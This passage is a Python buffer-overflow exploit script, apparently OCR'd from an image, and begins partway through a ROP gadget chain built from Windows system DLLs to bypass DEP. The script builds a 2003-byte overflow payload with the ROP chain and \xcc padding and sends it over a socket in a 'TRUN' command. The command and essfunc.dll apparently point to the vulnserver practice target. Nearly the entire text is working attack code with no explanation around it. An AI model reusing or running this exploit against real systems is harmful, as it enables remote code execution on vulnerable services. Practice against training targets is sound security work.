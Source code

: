 ```python
        0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]

        #[---INFO:gadgets_to_set_ebx:---]
        0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
        0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_edx:---]
        0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR
        0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_ecx:---]
        0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR
        0x75285e78,  # &Writable location [MSCTF.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_edi:---]
        0x76df7643,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
        0x768a1645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR

        #[---INFO:gadgets_to_set_eax:---]
        0x758b9b4c,  # POP EAX # RETN [kernel32.dll] ** REBASED ** ASLR
        0x90909090,  # nop

        #[---INFO:pushad:---]
        0x758ec2a0,  # PUSHAD # RETN [kernel32.dll] ** REBASED ** ASLR
        ]
        return ''.join(struct.pack('<I', _) for _ in rop_gadgets)



rop_chain = create_rop_chain()


#JMP ESP 0x625011AF: \xAF\x11\x50\x62

payload = "A" * 2003
payload += rop_chain
payload += "\xcc" * (3000- len(payload))

try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((RHOST, RPORT))
        s.recv(1024)
        print("[+] Sending exploit!")
        s.send("TRUN /.:/" + payload)
        print("[+] Evil buffer sent...")
        s.close()
except:
        print("[-] Could not connect to server!")

```
